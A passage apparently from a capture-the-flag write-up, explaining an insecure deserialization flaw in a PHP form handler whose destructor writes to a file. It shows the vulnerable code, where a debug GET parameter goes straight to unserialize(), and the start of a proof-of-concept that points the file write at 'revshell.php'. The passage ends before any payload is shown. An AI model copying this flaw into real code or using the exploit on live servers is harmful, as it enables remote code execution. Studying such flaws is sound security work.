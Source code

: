 ```php

}

public function __destruct() {

file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';

}

}

// Leaving this for now... only for debug purposes... do not touch!

$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);

$application = new FormSubmit;
$application -> SaveMessage();


```

Also, it contains a call of `unserialize` function which leads to `Insecure Deserialization`.

Why? The class has a method `__destruct()` which will destroy an object after completion of code execution inside `<?php ?>`. Thus, it is possible to perform insecure deserialization attack and gain access. How? Well, we just take initial file, delete html and create a new object of this class with our data. My final file poc.php that I launched with command `php poc.php`:

```php
<?php

class FormSubmit {

public $form_file = 'message.txt';
public $message = '';

public function SaveMessage() {

$NameArea = $_GET['name']; 
$EmailArea = $_GET['email'];
$TextArea = $_GET['comments'];

        $this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";
}

public function __destruct() {

file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';

}

}

// Leaving this for now... only for debug purposes... do not touch!

$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);

$debug_obj = new FormSubmit;
$debug_obj->form_file = 'revshell.php';
```
